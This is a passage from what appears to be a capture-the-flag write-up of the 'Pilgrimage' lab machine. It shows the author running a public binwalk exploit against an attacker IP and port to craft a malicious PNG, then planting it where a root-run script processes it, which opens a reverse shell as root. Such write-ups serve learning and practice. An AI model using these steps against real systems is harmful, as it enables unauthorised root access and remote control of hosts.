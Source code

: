 
checking the version disclosed I found there was indeed a public [exploit](https://www.exploit-db.com/exploits/51249) for this version that would allow us to get remote code execution. in this case it would be as root. I copied the exploit code onto the machine and then ran it on a random image i found.

```bash
python3 exploit.py 65620e2869bcb.png 10.10.14.51 443
```

![Exploit privesc](/assets/img/Pilgrimage/Pilgrimage_10.png)

Next we move the file to the **/var/www/pilgrimage.htb/shrunk/** directory to have the script pick it up.

```bash
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/65620e2869bc2.png
```

Then a few moments later the reverse shell would open up giving me access with the root account.

![Root](/assets/img/Pilgrimage/Pilgrimage_11.png)
